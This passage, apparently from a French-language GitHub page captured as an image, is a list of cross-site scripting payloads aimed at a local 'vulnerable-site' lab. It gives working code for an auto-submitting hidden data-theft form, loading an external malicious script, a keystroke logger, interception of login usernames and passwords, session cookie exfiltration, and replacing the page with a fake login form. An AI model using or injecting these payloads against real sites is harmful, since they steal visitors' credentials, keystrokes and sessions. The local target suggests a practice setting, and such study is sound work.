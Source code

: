 - **Création d'un formulaire caché pour vol de données :**
  ```html
  <form id="stealData" action="http://localhost/vulnerable-site/stealdata.php" method="post">
      <input type="hidden" name="data" value="Sensitive Data">
  </form>
  <script>
      document.getElementById('stealData').submit();
  </script>
  ```

#### Scripts avancés

- **Exécution d'un script externe :**
  ```html
  <script src="http://localhost/vulnerable-site/malicious.js"></script>
  ```

- **Keylogger simple :**
  ```html
  <script>
      document.onkeypress = function(e) {
          var xhr = new XMLHttpRequest();
          xhr.open('GET', 'http://localhost/vulnerable-site/keystroke?key=' + e.key, true);
          xhr.send();
      };
  </script>
  ```

- **Interception des formulaires de login :**
  ```html
  <script>
      var form = document.forms[0];
      form.onsubmit = function() {
          var xhr = new XMLHttpRequest();
          xhr.open('POST', 'http://localhost/vulnerable-site/stealdata.php', true);
          xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
          xhr.send('username=' + form.username.value + '&password=' + form.password.value);
      };
  </script>
  ```

- **Vol des informations de la session :**
  ```html
  <script>
      var xhr = new XMLHttpRequest();
      xhr.open('GET', 'http://localhost/vulnerable-site/stealdata.php?session=' + encodeURIComponent(document.cookie), true);
      xhr.send();
  </script>
  ```

- **Affichage d'une fausse page de connexion :**
  ```html
  <script>
      document.body.innerHTML = '<form action="http://localhost/vulnerable-site/fake.html" method="post"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>';
  </script>
  ```
